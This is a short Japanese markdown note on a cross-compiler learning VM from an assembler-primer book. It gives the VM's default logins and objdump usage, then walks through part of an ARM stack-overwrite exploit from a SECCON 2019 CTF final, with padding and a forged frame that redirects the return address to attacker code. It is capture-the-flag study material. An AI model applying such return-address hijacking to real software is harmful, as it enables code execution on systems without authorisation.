# cross-gcc

## 開発環境
熱血！／大熱血！ アセンブラ入門  
開発環境のＶＭイメージ
http://kozos.jp/vmimage/burning-asm.html

### ID/PASS
user/progtooluser
root/progtoolroot


### tool
/usr/local/cross-gcc494/bin 配下にobjdumpなどのツールが入っている
例えば arm-elf用の toolは `ls /usr/local/cross-gcc494/bin/arm-elf*` 

objdump なら
```
/usr/local/cross-gcc494/bin/arm-elf-objdump -d arm-elf.x | less
```


## ARMのexploit例
問題・解答例は以下に保管。 https://github.com/yyamada12/ctfs/tree/master/seccon2019final 

ctfs/seccon2019final/solve/read-password/arm-elf.S

```
.org  0x1c10 - 16 - 256 - 4 - 28
```
org: バイナリをここに配置してくださいという命令

```
_start:

.long 0x61626364
.long 0
.long 0
.long 0
```
16バイトはまず適当に埋める

```
.long 0 /* FP -> FP */
.long 0x1c00 /* IP -> SP */
.long _code /* LR -> PC */
.long 0 /* PC -> discard */
```
戻りアドレスを設定する (`_code`)


make arm-elf.bin すると arm-elf.binが生成される

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2MDcyNzc2NjIsNjMxMjE1NTg5LC05ND
c0MjkzXX0=
-->